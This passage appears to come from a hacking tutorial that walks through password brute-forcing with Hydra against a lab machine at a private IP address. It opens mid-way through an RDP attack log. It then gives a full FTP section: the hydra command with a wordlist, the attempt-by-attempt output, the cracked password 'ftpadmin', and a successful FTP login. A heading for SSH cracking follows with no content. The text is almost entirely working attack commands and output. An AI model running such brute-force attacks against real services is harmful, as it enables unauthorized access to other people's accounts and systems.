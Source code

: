 ```bash
[ATTEMPT] target 192.168.67.132 - login "administrator" - pass "youradmin" - 12 of 933 [child 0]
[3389][rdp] host: 192.168.67.132   login: administrator   password: youradmin
[STATUS] attack finished for 192.168.67.132 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-01-07 13:24:46

I did it on vmware workstation and was too slow!
```
# Cracking FTP password
Hacker knows the user name of the FTP is 'root' , So hacker make a quick password guessing with following command:
```bash
root@find:~/Desktop# hydra -t 5 -V -f -l root -P common.txt ftp://192.168.67.132
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

Hydra (http://www.thc.org/thc-hydra) starting at 2014-01-07 13:45:55
[DATA] 5 tasks, 1 server, 934 login tries (l:1/p:934), ~186 tries per task
[DATA] attacking service ftp on port 21
[ATTEMPT] target 192.168.67.132 - login "root" - pass "Admin" - 1 of 934 [child 0]
[ATTEMPT] target 192.168.67.132 - login "root" - pass "Administration" - 2 of 934 [child 1]
[ATTEMPT] target 192.168.67.132 - login "root" - pass "crm" - 3 of 934 [child 2]
[ATTEMPT] target 192.168.67.132 - login "root" - pass "CVS" - 4 of 934 [child 3]
[ATTEMPT] target 192.168.67.132 - login "root" - pass "CYBERDOCS" - 5 of 934 [child 4]
[ATTEMPT] target 192.168.67.132 - login "root" - pass "CYBERDOCS25" - 6 of 934 [child 1]
[ATTEMPT] target 192.168.67.132 - login "root" - pass "CYBERDOCS31" - 7 of 934 [child 0]
[ATTEMPT] target 192.168.67.132 - login "root" - pass "INSTALL_admin" - 8 of 934 [child 2]
[ATTEMPT] target 192.168.67.132 - login "root" - pass "Log" - 9 of 934 [child 3]
[ATTEMPT] target 192.168.67.132 - login "root" - pass "Logs" - 10 of 934 [child 1]
[ATTEMPT] target 192.168.67.132 - login "root" - pass "Pages" - 11 of 934 [child 4]
[ATTEMPT] target 192.168.67.132 - login "root" - pass "youradmin" - 12 of 934 [child 0]
[ATTEMPT] target 192.168.67.132 - login "root" - pass "ftpadmin" - 13 of 934 [child 2]
[ATTEMPT] target 192.168.67.132 - login "root" - pass "Servlet" - 14 of 934 [child 3]
[ATTEMPT] target 192.168.67.132 - login "root" - pass "Servlets" - 15 of 934 [child 1]
[ATTEMPT] target 192.168.67.132 - login "root" - pass "SiteServer" - 16 of 934 [child 4]
[ATTEMPT] target 192.168.67.132 - login "root" - pass "Sources" - 17 of 934 [child 0]
[21][ftp] host: 192.168.67.132   login: root   password: ftpadmin
[STATUS] attack finished for 192.168.67.132 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-01-07 13:45:55
root@find:~/Desktop# 

Here the password is ftpadmin! 
root@find:~/Desktop# ftp 192.168.67.132
Connected to 192.168.67.132.
220 Hello, I'm freeFTPd 1.0
Name (192.168.67.132:root): root    
331 Password required for root
Password:
230 User root logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful
150 Opening ASCII mode data connection
drwxr-xr-x   1 root       root            0 Jan  7 13:39 .
drwxr-xr-x   1 root       root            0 Jan  7 13:39 ..
226 Directory send OK
```
# Cracking SSH password with hydra
```bash
```